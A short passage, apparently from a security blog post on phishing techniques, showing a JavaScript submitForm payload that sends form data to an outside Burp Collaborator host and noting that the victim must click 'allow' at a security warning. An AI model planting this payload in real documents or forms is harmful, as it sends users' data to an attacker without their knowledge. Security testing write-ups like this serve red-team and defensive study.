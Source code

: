 ![ template ><](/assets/img/blog2-phish/46.png)


Of Course, you can do more than this. I recommend exploring more on this topic.

```javascript
this.submitForm('http://azdn342b12dbmo0uvmj5yrekrbx1lq.burpcollaborator.net');
```

We have to click allow every time and this makes the process very tedious.

( Only for the above payload)

![ security-warning ><](/assets/img/blog2-phish/47.png)
